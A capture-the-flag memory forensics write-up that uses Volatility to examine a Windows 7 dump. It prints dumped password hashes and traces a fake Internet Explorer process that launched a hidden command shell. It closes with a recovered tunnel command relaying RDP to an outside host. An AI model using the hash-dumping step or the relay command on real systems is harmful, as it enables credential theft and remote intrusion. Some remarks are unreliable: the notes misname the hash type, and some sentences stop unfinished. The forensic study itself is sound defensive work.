 ## ch2
### imageinfo
```txt
volatility -f ch2.dmp --profile=Win7SP1x86 imageinfo

INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86 (Instantiated with Win7SP1x86)
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/Documents/volatility/ch2/ch2.dmp)
                      PAE type : PAE
                           DTB : 0x185000L
                          KDBG : 0x82929be8L
          Number of Processors : 1
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0x8292ac00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2013-01-12 16:59:18 UTC+0000
     Image local date and time : 2013-01-12 17:59:18 +0100
```
It's a memory dump of a process, so not all commands are available.

We can see the registry keys put in memory using the `printkeys` plugin. The local machine name can be found using 
```txt
volatility -f ch2.dmp --profile=Win7SP1x86 printkey -K "ControlSet001\Control\computername\activecomputername"
Volatility Foundation Volatility Framework 2.6
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ActiveComputerName (V)
Last updated: 2013-01-12 16:38:14 UTC+0000

Subkeys:

Values:
REG_SZ        ComputerName    : (V) WIN-ETSA91RKCFP
```

## passwords
We can retrieve the password hashes using `hashdump`
```txt
volatility -f ch2.dmp --profile=Win7SP1x86 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John Doe:1000:aad3b435b51404eeaad3b435b51404ee:b9f917853e3dbf6e6831ecce60725930:::
```

using `hash-identifier`  we can see that passwords are encoded using md5
crackstation gives us the following decrypted password for user `John Doe`.

- hidden cmd.exe process (pstree) with pid 1616
- psxview
	- pid 1616 with ppid 2772
	- pid 2772 is iexplore.exe
		- ppid explorer.exe
			- has lots of children, especially another iexplorer
	- pid 3044

```
 0x87ac6030:explorer.exe                             2548   2484     24    766 2013-01-12 16:40:27 UTC+0000
. 0x87b6b030:iexplore.exe                            2772   2548      2     74 2013-01-12 16:40:34 UTC+0000
.. 0x89898030:cmd.exe                                1616   2772      2    101 2013-01-12 16:55:49 UTC+0000
```
- dlllist
	- `volatility -f ch2.dmp --profile=Win7SP0x86 dlllist -p 2772,1616,3044
	- it show that one of the process has a cmdline that points to internet explorer, whereas the other one uses a false iexplorer in appdata roaming, replacing the lnk file with an executable with the same name. If the user had launched the app via the link, it 
	- user32.dll is used by the fake process because this dll is needed to launch cmd.
	- 

### Investigating pid 1616
using consoles plugin, we get the following:
```txt
**************************************************
ConsoleProcess: conhost.exe Pid: 2168
Console: 0x1081c0 CommandHistorySize: 50
HistoryBufferCount: 3 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe
AttachedProcess: cmd.exe Pid: 1616 Handle: 0x64
----
CommandHistory: 0x427a60 Application: tcprelay.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427890 Application: whoami.exe Flags: 
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
CommandHistory: 0x427700 Application: cmd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x64
----
Screen 0x416348 X:80 Y:300
```

tcprelay.exe, a legitimate service for (?) is used before whoami and cmd.exe.
Looking at the memory dump for tcprelay.exe, we get :
```txt
  tcprelay.exe
  tcprelay.exe
  tcprelay.exe
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
```




